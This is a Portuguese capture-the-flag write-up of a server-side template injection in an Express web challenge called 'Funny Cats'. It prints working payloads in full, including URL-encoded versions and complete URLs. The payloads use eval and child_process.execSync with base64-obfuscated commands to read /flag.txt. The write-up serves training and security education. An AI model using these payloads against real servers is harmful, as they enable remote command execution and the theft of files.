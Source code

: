 # **WEB**

**Autor**: Hakal  
**Desafio**: Funny Cats  
**Nível**: Médio  

---

## **1. Introdução**

Este documento descreve uma exploração bem-sucedida de uma vulnerabilidade Server-Side Template Injection (SSTI) em um servidor Express, com o objetivo de acessar a flag escondida no arquivo `/flag.txt`. A vulnerabilidade ocorre devido ao processamento inadequado de entradas de usuários, permitindo a execução de código arbitrário no servidor.

---

## **2. Análise do Código Vulnerável**

O servidor em questão exibe imagens de gatos e permite que os usuários insiram um nome de gato por meio de uma URL, como no exemplo: `https://funny-cats.chapeudepalhahacker.club/gato?name=Alfredo`. O site não realiza a devida sanitização da entrada do usuário, o que possibilita a exploração através de injeções de template.

A falta de sanitização adequada da entrada `name` possibilita a exploração via injeção de template. Essa vulnerabilidade permite que atacantes executem código no lado servidor, podendo ler arquivos sensíveis ou executar comandos arbitrários.

---

## **3. Exploração da SSTI**

A exploração foi realizada em três etapas principais: injeção de código básico, identificação do sistema operacional do servidor e, finalmente, leitura do conteúdo do arquivo `/flag.txt`.

### **Passo 1: Demonstração de Injeção de Template Básica**

Inicialmente, testamos a injeção com uma expressão simples para avaliar o comportamento do servidor.

**Payload:**

```plaintext
<%= 7*7 %>
```

**URL Encoded:**

A codificação em URL do payload foi realizada para evitar problemas com caracteres especiais e filtros de segurança.

```plaintext
%3C%25%3D%207*7%20%25%3E
```

**URL Completa:**

A URL completa com a injeção foi construída da seguinte forma:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%207*7%20%25%3E
```

**Resultado:**

O servidor processou a injeção e retornou o resultado da multiplicação, confirmando a execução de código no lado servidor.

![Resultado da Injeção Básica](1.png)

### **Passo 2: Identificação do Sistema Operacional**

Com a vulnerabilidade confirmada, o próximo passo foi coletar informações sobre o servidor. Utilizou-se o método `eval` e a função `os.platform()` para identificar o sistema operacional:

**Payload:**

```plaintext
<%= '- Sistema Operacional: ' %><%=eval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk=', 'base64').toString())%><%= '' %>
```

**URL Encoded:**

A codificação do payload para URL ficou assim:

```plaintext
%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL completa com o payload para a identificação do sistema operacional foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou a plataforma do sistema operacional, confirmando a execução do comando.

![Identificação do Sistema Operacional](2.png)

### **Passo 3: Leitura do Conteúdo de /flag.txt**

A etapa final consistiu em acessar o arquivo `/flag.txt` do servidor. Utilizamos o módulo `child_process` do Node.js para executar o comando `cat /flag.txt` e obter o conteúdo do arquivo. O comando foi codificado em base64 para evitar interferências.

**Payload:**

```plaintext
<%= '- ' %><%= global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo=', 'base64').toString()) %><%= '' %>
```

**URL Encoded:**

O payload foi novamente URL-encoded para garantir o correto processamento no servidor:

```plaintext
%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL com a injeção para leitura do conteúdo do arquivo `/flag.txt` foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou o conteúdo do arquivo `/flag.txt`, revelando a flag.

![Leitura do Conteúdo de /flag.txt](3.png)

---

## **4. Conclusão**

A exploração da vulnerabilidade SSTI no servidor Express foi concluída com sucesso. Através da injeção de código malicioso, foi possível:

1. Verificar o processamento inadequado de entradas do usuário pelo servidor.
2. Identificar o sistema operacional do servidor.
3. Executar comandos arbitrários para acessar o conteúdo do arquivo `/flag.txt` e obter a flag.

Essa exploração destaca a importância de validar e sanitizar corretamente as entradas dos usuários para prevenir vulnerabilidades SSTI em aplicações web.

---
